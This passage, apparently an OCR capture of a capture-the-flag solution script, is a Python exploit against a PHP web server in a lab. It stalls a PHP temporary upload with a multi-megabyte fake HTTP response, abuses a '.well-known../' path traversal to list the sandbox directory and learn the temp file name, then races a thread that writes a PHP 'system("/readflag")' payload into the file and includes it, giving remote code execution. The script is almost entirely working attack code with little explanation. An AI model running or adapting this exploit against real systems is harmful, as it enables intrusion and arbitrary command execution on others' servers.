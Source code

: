 ```python
{}'''.format(len(data), data).replace("\n","\r\n")


    r.send(payload)
    try:
        r.recvuntil('your sandbox: ')
    except EOFError:
        print("[ERROR]: EOFERROR")
        # l.close()
        r.close()
        continue
    # dirname = r.recv(70)
    dirname = r.recvuntil('\n', drop=True) + '/'

    print("[DEBUG]:" + dirname)

    # send trash
    c = l.wait_for_connection()
    resp = '''HTTP/1.1 200 OK
Date: Sun, 29 Dec 2019 05:22:47 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 534
Content-Type: text/html; charset=UTF-8
{}'''.format('A'* 5000000).replace("\n","\r\n")
    c.send(resp)


    # get filename
    r2 = requests.get("http://192.168.34.1:8004/.well-known../"+ dirname + "/")
    try:
        tmpname = "php" + re.findall(">php(.*)<\/a",r2.text)[0]
        print("[DEBUG]:" + tmpname)
    except IndexError:
        l.close()
        r.close()
        print("[ERROR]: IndexErorr")
        continue
    def job():
        time.sleep(0.01)
        phpcode = 'wtf<?php system("/readflag");?>';
        c.send(phpcode)

    t = threading.Thread(target = job)
    t.start()

    # file_get_contents and include tmp file
    exp_file = dirname + "/" + tmpname
    print("[DEBUG]:"+exp_file)
    r3 = requests.post("http://192.168.34.1:8004/", data={'file':exp_file})
    print(r3.status_code,r3.text)
    if "wtf" in r3.text:
        break

    t.join()
    r.close()
    l.close()
    #r.interactive()
```
